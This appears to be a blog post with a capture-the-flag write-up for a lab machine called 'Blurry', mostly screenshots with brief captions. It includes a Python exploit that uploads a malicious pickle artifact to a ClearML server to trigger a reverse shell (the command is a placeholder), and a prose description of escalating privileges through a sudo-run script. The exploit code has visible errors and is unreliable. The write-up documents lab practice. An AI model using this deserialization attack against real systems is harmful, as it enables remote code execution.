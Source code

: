 ```yaml
---
layout: post
title: "Blurry 8e433db17c4a43b790fb0030a3f23d14"
date:   2025-07-12 12:05:57 -0400
categories: writeups
---
```


# Blurry

# 1. Enumeration

As we used to, we start enumerating ports

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled.png' | relative_url }})

There are just two port open, the 80 port is redirecting to a subdomain, which indicates that probably there are other subdomains running on it.

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_1.png' | relative_url }})

We can register ourselves and follow the instructions to authenticate us, and prepare crearml to execute tasks through it.

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_2.png' | relative_url }})

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_3.png' | relative_url }})

Let’s search for another subdomains

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_4.png' | relative_url }})

Configure clearml to authenticate using .conf file

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_5.png' | relative_url }})

There is a public chat inside of one subdomain

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_6.png' | relative_url }})

# 2. User flag

Now we have a clue, it is necessary to use review tag to make that an admin open the artifact file which is the object that have the reverse shell

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_7.png' | relative_url }})

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_8.png' | relative_url }})

Prepare the exploit

```python
import os
from clearml import Task
import base64
import time

task = Task.init(project_name='Black Swan', task_name='Nombree', tags=['review']. task_type=Task.TaskTypes.data_processing)

class Tricp:
	def _reduce_(self):
		cmd = 'rev shell'
		return os.system, (cmd,)
		
rng_name = base64.b64encode(str(time.time()).encode()).decode
task.upload_artifact(name=rng_name,artifact_object=Pickle())

task.execute_remotely(queue_name='default')
```

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_9.png' | relative_url }})

Execute it and get user flag

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_10.png' | relative_url }})

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_11.png' | relative_url }})

# 3.Priv esc

We can see that we have sudo permission to run evaluate model, and we have permise to delete that file so just delete it and create another one performing a shell in bash using python, then run it as sudo and got the root flag

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_12.png' | relative_url }})

![Untitled]({{ '/assets/images/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988/06705de6-cdc9-4a88-8879-4a03e3f03416-export-09f465a8-166f-4109-8879-1c8b0e42d988_Untitled_13.png' | relative_url }})

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
